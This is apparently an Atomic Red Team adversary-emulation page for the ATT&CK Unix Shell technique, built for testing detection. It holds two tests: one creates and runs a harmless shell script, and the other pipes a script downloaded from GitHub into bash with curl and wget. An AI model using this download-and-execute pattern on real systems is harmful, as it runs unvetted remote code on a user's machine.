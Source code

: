 # T1059.004 - Unix Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/004)
<blockquote>Adversaries may abuse Unix shell commands and scripts for execution. Unix shells are the primary command prompt on Linux and macOS systems, though many variations of the Unix shell exist (e.g. sh, bash, zsh, etc.) depending on the specific OS or distribution.(Citation: DieNet Bash)(Citation: Apple ZShell) Unix shells can control every aspect of a system, with certain commands requiring elevated privileges.

Unix shells also support scripts that enable sequential execution of commands as well as other typical programming operations such as conditionals and loops. Common uses of shell scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.

Adversaries may abuse Unix shells to execute various commands or payloads. Interactive shells may be accessed through command and control channels or during lateral movement such as with [SSH](https://attack.mitre.org/techniques/T1021/004). Adversaries may also leverage shell scripts to deliver and execute multiple commands on victims or as part of payloads used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7e7ac3ed-f795-4fa5-b711-09d6fbe9b873





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Script path | path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** d0c88567-803d-4dca-99b4-7ce65e7b257c






#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
